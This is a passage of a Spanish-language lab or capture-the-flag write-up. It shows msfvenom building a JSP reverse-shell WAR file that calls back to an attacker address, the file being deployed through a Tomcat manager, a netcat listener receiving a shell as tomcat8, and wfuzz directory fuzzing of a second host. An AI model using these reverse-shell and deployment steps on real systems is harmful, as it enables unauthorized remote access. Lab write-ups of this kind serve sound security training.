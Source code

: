 ```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.16.64.10 LPORT=443 -f war > eeeee.war
```

Generamos un archivo .war llamado eeeee.war y lo subimos a la página web usando la sección de Deploy

![imagen](https://user-images.githubusercontent.com/71317374/132502557-3c8dffe0-a5ff-4b5a-9ac4-ad7f4497c30d.png)

Cuando le demos a Deploy aparecerá el nombre de nuestro archivo listado en Applications, pero antes vamos a la consola y abrimos un listener de netcat en el puerto 443
con `nc -nlvp 443`, y entonces le damos a nuestro archivo y conseguimos una reverse shell como el usuario tomcat8.

```bash
ncat -nlvp 443
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.16.64.101.
Ncat: Connection from 172.16.64.101:39542.
whoami
tomcat8
```

Para tener una consola totalmente interactiva, tendríamos que hacer un [tratamiento de la TTY](https://www.thehackersnow.com/tratamiento-de-una-tty/).
Ahora, hay que dirigirse a /home para recoger las flags de esta máquina, ubicadas en /home/adminels/Desktop y en /home/developer

# Reconocimiento de 172.16.64.140 y explotación de 172.16.64.199 {#maquina2}

Tras comprometer la 172.16.64.101, nos dirigimos a la 172.16.64.140, que tiene un servidor HTTP corriendo el el puerto 80, así que vamos a fuzzearlo con la herramienta `wfuzz` a ver si encontramos algo.

```bash
 wfuzz -c --hc=404 -t 75 -w /usr/share/wordlists/directory-list-2.3-medium.txt 172.16.64.140/FUZZ
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.16.64.140/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================
000000039:   301        9 L      28 W       312 Ch      "img"
000000553:   401        14 L     54 W       460 Ch      "project"
000000550:   301        9 L      28 W       312 Ch      "css"

Total time: 28.95585
Processed Requests: 7961
Filtered Requests: 7944
Requests/sec.: 274.9357
```
